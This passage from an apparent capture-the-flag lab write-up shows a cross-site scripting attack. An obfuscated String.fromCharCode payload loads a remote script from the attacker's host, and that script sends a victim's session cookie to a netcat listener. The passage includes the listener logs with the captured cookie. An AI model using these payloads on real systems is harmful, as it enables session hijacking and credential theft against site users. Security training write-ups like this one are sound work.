     <img src="x` `<script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>"` `>`
    

That didn’t work either, but after a ton of tinkering, I got this to work, in
that I saw a connection on `nc`:

    
    
    <img src="/><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,39,60,115,99,114,105,112,116,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,49,48,46,49,52,46,51,48,47,48,120,100,102,46,106,115,34,62,60,47,115,99,114,105,112,116,62,39,41,59))</script>" />
    
    
    
    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.25.
    Ncat: Connection from 10.10.10.25:43706.
    GET /0xdf.js HTTP/1.1
    Accept: */*
    Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,*
    Host: 10.10.14.30
    

Now that it is trying to get javascript from me to run, I will give it some.
I’ll make a file that waits for the page to load, and then executes a request
to me:

    
    
    root@kali# cat 0xdf.js 
    window.addEventListener('DOMContentLoaded', function(e) {
        window.location = "http://10.10.14.30:81/?cookie=" + encodeURI(document.getElementsByName("cookie")[0].value)
    })
    

I’ll re-submit the same payload, with `python` acting as a webserver, and `nc`
listening on 81. It hits the webserver:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.25 - - [04/Sep/2019 18:10:26] "GET /0xdf.js HTTP/1.1" 200 -
    

And then I get the request with the cookie on `nc`:

    
    
    root@kali# nc -lnvp 81
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::81
    Ncat: Listening on 0.0.0.0:81
    Ncat: Connection from 10.10.10.25.
    Ncat: Connection from 10.10.10.25:46152.
    GET /?cookie=connect.sid=s%253Ab3c4cce0-cf60-11e9-84a9-cb2ef2ea7a59.ZKayGjSEn27vNWWhzADjAyFYV2tPHlaWeErLRJZQpsM HTTP/1.1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Referer: http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65
    User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,*
    Host: 10.10.14.30:81
    